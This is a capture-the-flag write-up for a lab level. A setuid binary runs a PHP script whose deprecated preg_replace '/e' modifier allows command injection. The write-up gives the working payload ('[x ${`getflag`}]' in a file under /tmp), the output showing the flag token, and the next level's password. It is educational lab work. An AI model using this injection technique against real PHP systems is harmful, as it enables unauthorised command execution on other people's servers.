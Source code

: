 With a `ls` on level06, we can see that we have two files.
One is a binary file and one is PhP file.
To begin, we start by use Ghidra on the binary file, and we understand that it is executing the PhP script.
Looking into this file, we witness the use of a deprecated method while using regex : `/e`.
This is deprecated because it can be use to execute command shell while executing the script, if we give the correct argument.
First thing, we tried to put in a file in the tmp directory :
"""
[x `getflag`]
"""
But this doesn't work, it just print "`getflag`".
So we thought it has to be because of the newline at the end of the file.
So we tried :
"""
echo -n "[x `whoami`]" > /tmp/text; ./level06 /tmp/text; echo ""
"""
This does execute `whoami` but the result is "level06" and not flag06. So we still have an isue.
After some testing, Guillaume found the `complex syntax`. And with that, we can execute a command during the script because PhP is interpreted.
In a file, still in the tmp directory, we put:
"""
[x ${`whoami`}]
"""
We have the result we want, we have "flag06".
SO by changing `whoami` by `getflag`, and by executing the binary file, the user `flag06` will execute the command `getflag`.
The result is :
"""
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
"""

To connect to level 7:
```
su level07
wiok45aaoguiboiki2tuin6ub
```
